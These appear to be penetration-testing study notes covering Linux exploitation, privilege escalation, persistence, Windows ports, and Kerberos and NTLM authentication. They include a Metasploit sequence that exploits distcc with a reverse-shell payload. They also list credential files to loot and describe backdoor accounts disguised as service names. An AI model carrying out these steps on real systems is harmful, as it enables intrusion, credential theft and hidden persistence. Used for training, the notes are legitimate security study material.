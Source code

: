 	3. Installing new services
	4. majority of persistence tasks
```bash
msfconsole
	> serach distc
	> use distcc_exec
	> set RHOSTS 172.22.117.150
	> show payloads
	> set payload cmd/unix/reverse
	> set LHOST 172.22.117.100
	> whoami
```
Performing High-Priv Escalation
	/var/lib/mysql/mysql/user.MYD
		Is the MySQL database file, which may contain SQL login credentials.
	/home/"user"/.bash_history
		Contains a history of a user's bash commands.
	/home/"user"/.ssh
		Contains private SSH keys.
Persistence
	: consists of techinques that adversaries use to keep access to sstems across restarts, changed credentials, and other interruptions that could cut off access
		Existing Services
			_using useradd to create a new user as a "backdoor"_
		Blending into the environment
			_blend in with current account names by using the name sysadmin or systemd-ssh to pose a service_
		Maintaining current level of Access
			*important to keep the highest privilege possible to avoid having to elevate again*
		Privesc Persistence
			*purposely establishing opportunities for low-privelege users to escalate their privileges*
___
### Windows Penetration Testing
Mitre Technique
	: how a specific tactic is carried out.
Ports and Protocols
	- SSH is a common port on a linux machine.
	- Windows relies on SMB (port 445) and Remote Desktop Protocol (port 3389) to be remotely accessed instead of SSH (22) like a linux box.
	- AD needs several ports open to properly communicate between the domain controller (DC) and workstations on the network.
	- Kerberos, the primary form of authentication in AD, uses port 88
		- Port 53
```bash
# Common Windows Ports
port 88 # Kerberos // AD Authentication
port 135 # RPC(WMI) // Remote Procedure Call (for process communication)
port 389 # LDAP // Lightweight Directory Access
port 445 # SMB // sharing files
port 3389 # RDP // Remote Desktop (usually used in lieu of SSH)
port 22 # commonly not open but not a sinking ship because SSH can be set to off on linux
```
Windows Authentication
	Kerberos
		: uses a ticketing system
			default protocol for authentication in Windows and is heavily used in Active Directory
			1. sends as-req
			2. KDC check password hash for match and encrypts/verifies
			3. as-rep grants TGT (ticket granting ticket)
	NTLM
		: "challenge response" protocol and uses a three step method:
		 1. Negotiation message from the client
		 2. Challenge message from the server
		 3. Authentication message from the client